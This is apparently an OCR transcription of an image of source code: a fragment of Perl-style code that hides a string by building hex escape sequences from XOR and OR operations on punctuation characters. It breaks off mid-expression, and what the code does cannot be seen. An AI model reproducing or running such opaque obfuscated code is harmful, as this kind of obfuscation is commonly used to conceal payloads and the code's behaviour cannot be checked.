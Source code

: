 '\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'%').'\\'.'\\'.('['^'#').('^'^('`'|'(')).('^'^('`'|('*'))).
'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|',')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^(('`')|
'+')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'$').'\\'.'\\'.('['^'#').('^'^('`'|',')).('`'|('%')).
'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'%').'\\'.'\\'.('['^'#').('^'^('`'|'/')).('^'^('`'|('('))).
'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|'-')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|('%')).
'\\'.'\\'.('['^'#').('^'^('`'|'(')).(';'&'=').'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|(','))).
'\\'.'\\'.('['^'#').('^'^('`'|',')).('^'^('`'|',')).'\\'.'\\'.('['^'#').('^'^('`'|'(')).(';'&('=')).
'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'%').'\\'.'\\'.('['^'#').('^'^('`'|'(')).('`'|'!').'\\'.''.
'\\'.('['^'#').('^'^('`'|'/')).('^'^('`'|'(')).'\\'.'\\'.('['^'#').('^'^('`'|'.')).('`'|'"').('\\').
'\\'.('['^'#').('^'^('`'|')')).('`'|'%').'\\'.'\\'.('['^'#').('^'^('`'|'-')).('^'^('`'|'+')).('\\').
'\\'.('['^'#').('^'^('`'|',')).('`'|'%').'\\'.'\\'.('['^'#').('^'^('`'|'.')).('^'^('`'|'/')).('\\').
'\\'.('['^'#').('^'^('`'|'(')).(';'&'=').'\\'.'\\'.('['^'#').('^'^('`'|',')).('`'|'$').'\\'.('\\').(
'['^'#').('^'^('`'|')')).('`'|'%').'\\'.'\\'.('['^'#').('^'^('`'|'(')).('^'^('`'|',')).'\\'.('\\').(
'['^'#').('^'^('`'|'(')).('^'^('`'|'(')).'\\'.'\\'.('['^'#').('^'^('`'|',')).('^'^('`'|',')).('\\').
'\\'.('['^'#').('^'^('`'|'(')).(';'&'=').'\\'.'\\'.('['^'#').('^'^('`'|'.')).('`'|'$').'\\'.('\\').(
'['^'#').('^'^('`'|')')).('`'|'&').'\\'.'\\'.('['^'#').('^'^('`'|'(')).(';'&'=').'\\'.'\\'.('['^'#')
.('^'^('`'|')')).('^'^('`'|',')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'%').'\\'.'\\'.('['^'#').(
'^'^('`'|'-')).('^'^('`'|'+')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|',')).'\\'.'\\'.(('[')^
'#').('^'^('`'|'(')).('^'^('`'|'+')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|',')).'\\'.'\\'.(
'['^'#').('^'^('`'|'(')).('`'|'"').'\\'.'\\'.('['^'#').('^'^('`'|'-')).('^'^('`'|'+')).'\\'.('\\').(
'['^'#').('^'^('`'|')')).('`'|'$').'\\'.'\\'.('['^'#').('^'^('`'|',')).('`'|'$').'\\'.'\\'.('['^'#')
.('^'^('`'|')')).('`'|'&').'\\'.'\\'.('['^'#').('^'^('`'|'(')).(';'&'=').'\\'.'\\'.('['^'#').("\^"^(
'`'|'.')).('`'|'"').'\\'.'\\'.('['^'#').('^'^('`'|',')).('^'^('`'|'/')).'\\'.'\\'.('['^'#').(('^')^(
'`'|'(')).(':'&'=').'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|'-')).'\\'.'\\'.('['^'#').(('^')^(
'`'|',')).('^'^('`'|',')).'\\'.'\\'.('['^'#').('^'^('`'|'(')).(';'&'=').'\\'.'\\'.('['^'#').(('^')^(
'`'|')')).('^'^('`'|',')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'&').'\\'.'\\'.('['^'#').(('^')^(
'`'|')')).('^'^('`'|')')).'\\'.'\\'.('['^'#').('^'^('`'|')')).('`'|'&').'\\'.'\\'.('['^'#').(('^')^(
'`'|',')).('`'|'$').'\\'.'\\'.('['^'#').('^'^('`'|'-')).('^'^('`'|'/')).'\\'.'\\'.('['^'#').(('^')^(
'`'|'-')).('^'^('`'|'.')).'\\'.'\\'.('['^'#').('^'^('`'|'(')).('^'^('`'|'(')).'\\'.'\\'.('['^"\#").(
'^'^('`'|'-')).('^'^('`'|'(')).'\\'.'\\'.('['^'#').('^'^('`'|'-')).('^'^('`'|'.')).'\\'.'\\'.(('[')^
'#').('^'^('`'|',')).('`'|'!').'\\'.'\\'.('['^'#').('^'^('`'|')')).('^'^('`'|'/')).'\\'.'\\'.(('[')^
'#').('^'^('`'|'-')).('^'^('`'|'/')).'\\'.'\\'.('['^'#').('^'^('`'|'-')).('`'|'"').'\\'.'\\'.(('[')^